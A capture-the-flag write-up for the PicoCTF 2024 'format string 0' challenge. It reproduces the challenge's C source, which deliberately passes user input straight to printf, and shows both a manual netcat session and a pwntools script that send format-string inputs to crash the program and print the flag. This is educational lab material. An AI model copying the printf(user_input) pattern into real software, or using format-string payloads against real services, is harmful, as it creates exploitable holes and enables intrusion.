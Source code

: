 # format string 0 - PicoCTF 2024

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** Format String, pwntools

---

## Challenge Description

> Can you use your knowledge of format strings to make the customers happy?
> 
> Files provided:
> - `format-string-0` (binary)
> - `format-string-0.c` (source code)
> - Remote instance: `nc mimas.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.
>   Just try out the different options
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- A Format String attack with be at play

> Format String attacks are attacks where arbitrary code execution can occur, resulting in numerous vulnerabilities such as: RCE, buffer overflows, DoS, etc. This can occur when the printf() function does not handle its parameters appropriately.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

### Key Observations
- There are two individuals we must serve
- There are three options for us to choose from to serve each individual
- There are constraints that will dictate which options we choose
    - Patrick: `Gr%114d_Cheese` (passes since the printed characters exceed 64 bytes)
    - Bob: `Cla%sic_Che%s%steak` (triggers the vulnerability since it is the only option with `%s`)

---

## Static Binary Analysis

No binary analysis is necessary for this challenge.

---

## Exploitation

### Plan

1. Submit the necessary food based on our previous analysis
2. Receive the flag

### Manual Exploitation

```
$ nc mimas.picoctf.net 49618
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<censored>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'mimas.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# First customer (Patrick)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Gr%114d_Cheese")

# Second customer (Sponge Bob)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Cla%sic_Che%s%steak")

# Receive flag
print(conn.recvall().decode())
```

## Key Takeaways
- Format String attacks can be utilized to exploit a program in various ways
- Binary analysis is not always necessary in a pwn challenges